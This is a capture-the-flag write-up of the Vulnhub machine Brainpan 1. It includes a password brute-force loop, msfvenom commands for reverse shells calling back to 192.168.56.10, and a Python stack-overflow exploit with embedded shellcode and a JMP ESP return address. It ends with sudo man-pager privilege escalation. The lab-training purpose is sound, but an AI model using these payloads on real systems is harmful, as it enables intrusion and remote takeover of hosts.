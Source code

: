 ```yaml
---
layout: post
title:  "Brainpan: 1 Write-Up"
categories: [write-ups]
permalink: /write-ups/brainpan_1_writeup/
---
```

Brainpan 1 is an intermediate OSCP-like machine hosted on Vulnhub which features a Windows x86 buffer overflow as the foothold.
<h1>Network Scan</h1>
As always, I've used Nmap to sweep the network and get the IP of the target machine.
![NetScan](netScan.png)
The IP of the target machine is 192.168.56.131, as .10 is my machine.
<br><br>
<h1>Port Scan</h1>
![PortScan](portScan.png)
This time there are two services listening in strange ports, so I used the default NSE scripts to gather more information about them.
![Port 9999 NSE](port9999NSE.png)
![Port 10000 NSE](port10000NSE.png)
Port 9999 has an unknown application which asks for a password, while port 10000 is a Python SimpleHTTPServer.
<h1>Port 10000 Enumeration</h1>
In the root page we get an image with some good coding practices.
![Root web page](rootPage.png)
I couldn't find anything interesting while enumerating manually, but Gobuster found a directory.
![Gobuster](gobuster.png)
The bin directory has directory listing enabled and from there we can download a Windows executable.
![Bin dir](binDirectory.png)
<h1>Brainpan.exe and Obtaining a Shell</h1>
Brainpan.exe is the program that is listening on port 9999 on the target machine.
![Exec brain 1](execBrain.png)
![Exec brain 2](execBrain2.png)
I attempted to bruteforce the password while I was examining the code using OllyDbg.
{% highlight bash %}for pass in $(cat test.txt)
do
        result=$(echo $pass | nc localhost 9999 | grep "ACCESS DENIED")
        if [ -z "$result" ]
        then
                echo $pass works!
                exit
        fi
done {% endhighlight %}
I found the password when I was reading the get_reply function (the string that is being passed as a parameter to strcmp), but using it didn't do anything. I also noticed that the program uses the strcpy function, which is unsafe.
![Olly Code](ollyDBGCode.png)
I used msf-pattern_create to generate a pattern with 1000 characters to test if the application crashes and then I used msf-pattern_offset to get the exact position.
![BOF Test 1](BOFTest1.png)
![BOF Test 2](BOFTest2.png) 
![BOF Test 3](BOFTest3.png)
To control the EIP register we need to send 524 junk bytes and the direction where we want to jump. I also found a function called winkwink with a "JMP esp" instruction at 0x311712F3, which means that we can try to execute some shellcode (I should have checked the memory protections to see if NX was enabled, but I didn't know how to do this with OllyDbg and I didn't have a Windows VM prepared).<br>
I generated two shellcodes, one for Windows and the other one for Linux using msfvenom.
{% highlight bash %}
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.10 LPORT=1234 -f py -v shellcode -a x86 –platform Windows -b "\x00\x0a" #Windows shellcode
msfvenom -p linux/x86/shell_reverse_tcp LPORT=1234 LHOST=192.168.56.10 -f py -v shellcode -a x86 –platform Linux -b "\x00\x0a" #Linux shellcode
{% endhighlight %}
At first the shellcode didn't execute properly, so I searched on the Internet and I found the NOP Sled technique, which consists in placing some NOP instructions before the shellcode to try to ensure that the shellcode will be executed completely. Using 16 NOPs (0x90) makes the shellcode work properly.
{% highlight python %}import struct
#Linux shellcode generated using msf-venom
shellcode =  b""
shellcode += b"\xda\xd1\xd9\x74\x24\xf4\x58\xbb\x3d\xfb\x67"
shellcode += b"\x3e\x2b\xc9\xb1\x12\x31\x58\x17\x83\xe8\xfc"
shellcode += b"\x03\x65\xe8\x85\xcb\xa4\xd5\xbd\xd7\x95\xaa"
shellcode += b"\x12\x72\x1b\xa4\x74\x32\x7d\x7b\xf6\xa0\xd8"
shellcode += b"\x33\xc8\x0b\x5a\x7a\x4e\x6d\x32\xbd\x18\xb5"
shellcode += b"\xc8\x55\x5b\xc6\xc8\x77\xd2\x27\x60\x11\xb5"
shellcode += b"\xf6\xd3\x6d\x36\x70\x32\x5c\xb9\xd0\xdc\x31"
shellcode += b"\x95\xa7\x74\xa6\xc6\x68\xe6\x5f\x90\x94\xb4"                                                                                                         
shellcode += b"\xcc\x2b\xbb\x88\xf8\xe6\xbc"
#Junk bytes to fill the buffer
junk = 'A'*524
#Address of the JMP esp instruction
retAddr = struct.pack("<I",0x311712F3)
#Payload with 16 NOPs
print junk+retAddr+"\x90"*16+shellcode{% endhighlight %}
I used the Linux shellcode because I knew that the target machine was using Linux (and I already tested it in my machine, so I knew that it would work).
![Remote shell 1](remoteShell1.png)
![Remote shell 2](remoteShell2.png)
<br>
<h1>PrivEsc to Root</h1>
Running sudo -l we can see that puck can run a script as root without suppling the password. This script has three functions (network, proclist and manual). The manual function runs the man command with the argument that we supply.
![Sudo -l](sudoPuck.png)
![Functions](functions.png)
The man command uses a pager to show the manual and this pager allows us to run commands. I won't explain the method but [I'll leave a link to it](https://gtfobins.github.io/gtfobins/man/).
![privesc](privesc.png)
<h1>Conclusions</h1>
This is a really fun and a bit difficult machine that helped me practising buffer overflow. I've learnt about the NOP sled technique and the importance of having a Windows VM to test programs in there (I'll work on this in the future).

